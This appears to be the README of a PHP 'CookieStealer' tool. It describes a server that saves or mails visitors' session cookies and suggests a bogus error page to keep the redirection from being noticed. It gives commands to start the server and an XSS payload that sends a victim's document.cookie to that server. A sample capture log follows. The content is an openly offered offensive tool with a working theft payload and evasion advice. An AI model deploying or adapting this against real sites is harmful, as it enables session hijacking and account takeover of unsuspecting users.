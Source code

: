 # CookieStealer
## Information
A simple Cookie Stealer written in PHP. When a user is redirected to the server running the cookie stealer its current session cookie is saved to a logfile or mailed together with basic information about the redirected user. The PHP-program also contains an example of how detection of the website redirection can be avoided by using a simple bogus webpage suing the iamge "connectionError.png". Further explanation of how the php-program works can be seen as comments in "index.php".

## Requirements
The only requirement of this program is PHP. Can be installed using:
```bash
sudo apt-get install php
```

## Run
The simplest way to run a server containing the Cookie Grabber is by running:
```bash
php -s <IP><Port> -t <Path>
```
Where <Path> is the path of the "CookieStealer" directory.
  
## Example
A server is started using the command:
```bash
php -s 127.0.0.1:1337 -t .
```
A user visits a webpage with XSS vulnerabilites. A user is redirected to the server running the Cookie Stealer using the injected javascript:
```bash
<script>document.location="http://127.0.0.1:1337/?cookie=" + document.cookie;</script>
```
The resulting log of the redirection is seen below.
```bash
IP: 
Port: 39024
Host: 
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Method: 
Referer: 
Date: 2018-11-23 07:27:38
Cookie: <Omitted Output>
```


